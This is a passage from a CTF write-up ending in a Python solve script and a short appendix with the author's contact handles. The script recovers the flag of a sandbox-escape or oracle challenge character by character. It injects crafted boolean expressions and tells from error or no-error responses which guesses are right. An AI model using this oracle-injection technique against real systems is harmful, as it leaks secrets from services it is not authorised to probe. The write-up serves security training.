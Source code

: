 ```py

flag_size = get_size()

send("o='a'!='a'") #o = 0
send("p='a'=='a'") #p = 1
send("m=['A']")
flag = ""
for j in range(flag_size):
	found = False

	for c in chars:

		send(f"m[_[o]!='{c}']")
		res = p.recvn(1)
		if res == b'G': #if it didn't gave error
			print("here")
			flag += c
			found = True
			break
	if not found:
		for c in  sorted("lite{}")[::-1]: #blacklisted characters that can be in the flag
			if check_blacklisted(c):
				flag += c
				found = True
				break
		if not found:
			flag += '.'
	print(flag, j)
	send("o=o+p") #o will increament each run

```



## Appendix

Really nice challenges in this CTF. I really liked the misc.

If you have any question regarding the above solutions, you can DM me via my [Twitter](https://x.com/itaybel) or my `Discord` (itaybel).
